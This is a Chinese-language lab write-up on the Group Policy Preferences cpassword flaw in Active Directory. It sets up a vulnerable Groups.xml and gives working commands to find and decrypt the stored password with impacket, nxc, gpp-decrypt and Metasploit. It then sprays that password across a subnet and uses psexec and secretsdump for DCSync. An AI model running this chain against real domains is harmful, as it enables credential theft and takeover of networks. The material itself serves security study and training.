




# GPP-Password


## 0x 01 原理

### 1.1 Group Policy Preferences 是什么

组策略首选项 (GPP) 允许域管理员通过组策略批量管理以下内容：

- 本地管理员账户和密码
    
- 计划任务
    
- 服务
    
- 驱动器映射
    
- 注册表项
    

这些配置以 XML 文件形式存储在 **SYSVOL** 共享中。所有已认证的域用户都能读取 SYSVOL。

### 1.2 漏洞位置
GPP 的"本地用户和组"扩展允许管理员推送本地账户密码。密码在 XML 中以 `cpassword` 字段存储，使用 **AES-256-CBC** 加密——但微软在 MSDN 文档中**公开发布了加密密钥**。
```
SYSVOL\corp.local\Policies\{GUID}\Machine\Preferences\Groups\Groups.xml

<Groups>
  <User ...>
    <Properties ...
      cpassword="wOeKk9NR1L3cP8jM2hVrYxWUzQ5aB6dF"   ← 加密的密码
      userName="localadmin" />                       ← 用户名是明文的
  </User>
</Groups>
```

微软在 2014 年发布 MS14-025 补丁，禁止新建含密码的 GPP，但**已存在的 Groups.xml 不会自动清除**。攻击者只要读到这个文件，用[公开密钥](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)解密 cpassword，就能拿到明文密码。

密钥为：
```
4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
```

### 1.3 漏洞前置条件

|     |            条件            |                为什么                |
| :-: | :----------------------: | :-------------------------------: |
|  ①  | 域内存在含 cpassword 的 GPP 文件 |           没有历史遗留就没东西可解            |
|  ②  |    任意域用户凭据（能读 SYSVOL）    | SYSVOL 对所有 Authenticated Users 开放 |
|  ③  |    攻击机能访问域控 SMB (445)    |         通过网络读取 SYSVOL 共享          |

## 0x 02 漏洞复现

### 2.1 靶场部署

在 DC01 上以域管理员执行：

```powershell
$gppPath = "C:\Windows\SYSVOL\sysvol\corp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups"
New-Item -Path $gppPath -ItemType Directory -Force | Out-Null

# Microsoft GPP AES Key
$keyHex = "4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b"
$key = for ($i=0; $i -lt $keyHex.Length; $i+=2) {
    [Convert]::ToByte($keyHex.Substring($i,2),16)
}

$password = "GPPpass123!"
$plaintext = [Text.Encoding]::Unicode.GetBytes($password)

$aes = [Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.Mode = [Security.Cryptography.CipherMode]::CBC
$aes.Padding = [Security.Cryptography.PaddingMode]::PKCS7
$aes.IV = [byte[]]::new(16)

$cpassword = [Convert]::ToBase64String(
    $aes.CreateEncryptor().TransformFinalBlock(
        $plaintext,0,$plaintext.Length
    )
)

@"
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-1E9F-4A52-9A2C-1E0A8F1B0A1D}">
  <User clsid="{6535DD9E-12D4-4C3B-9A6D-9F2E5A12D3C7}" name="localadmin">
    <Properties action="U"
      userName="localadmin"
      cpassword="$cpassword"
      changeLogon="0"
      noChange="0"
      neverExpires="0"
      acctDisabled="0" />
  </User>
</Groups>
"@ | Set-Content "$gppPath\Groups.xml" -Encoding UTF8

Write-Host "cpassword: $cpassword"
```
因为是历史遗留漏洞，只能通过手动写入的方式来部署靶场环境，使用Windows系统自行创建GPP已经无法复现该漏洞。
### 2.2 漏洞发现

**方法一：手动查找**

```bash
# 用任意域用户凭据列出 SYSVOL，搜索 Groups.xml
impacket-smbclient corp.local/alice:'P@ssw0rd1'@192.168.127.10
> use SYSVOL
> ls
> cd corp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
> get Groups.xml
```

**方法二：Get-GPPPassword.py（Impacket）**

```bash
# 自动扫描 SYSVOL 所有含 cpassword 的 XML
impacket-Get-GPPPassword corp.local/alice:P@ssw0rd1@192.168.127.10
```

**方法三：nxc smb**

```bash
nxc smb 192.168.127.10 -u alice -p P@ssw0rd1 -M gpp_password
```

### 2.3 攻击复现

**1. Get-GPPPassword.py

```bash
impacket-Get-GPPPassword corp.local/alice:P@ssw0rd1@192.168.127.10
```

输出：
```
[+] Found SYSVOL share
[*] Found XML file: ...\Groups.xml
[+] Found cpassword: wOeKk9NR1L3cP8jM2hVrYxWUzQ5aB6dF
[*] Decrypted password: GPPpass123!
```

**2. gpp-decrypt

```bash
# 拿到 cpassword 后
gpp-decrypt "wOeKk9NR1L3cP8jM2hVrYxWUzQ5aB6dF"
# → GPPpass123!
```

**3. Metasploit**

```bash
msfconsole -q
msf6 > use post/windows/gather/credentials/gpp
msf6 > set SESSION 1
msf6 > run
```


## 0x 03 进一步利用

解出的 `localadmin` 密码是 GPP 推送到域内所有机器的本地管理员账户。尝试使用这个密码进行密码喷洒：

```bash
# 对域内所有机器试本地管理员密码
nxc smb 192.168.127.0/24 -u localadmin -p 'GPPpass123!' --local-auth

# 如果命中 → 该机器本地管理员 → 可以 psexec 登录
impacket-psexec localadmin:'GPPpass123!'@192.168.127.100

# 如果是域管也在用这个密码 → 密码复用 → DCSync
impacket-secretsdump corp.local/Administrator:'GPPpass123!'@192.168.127.10
```


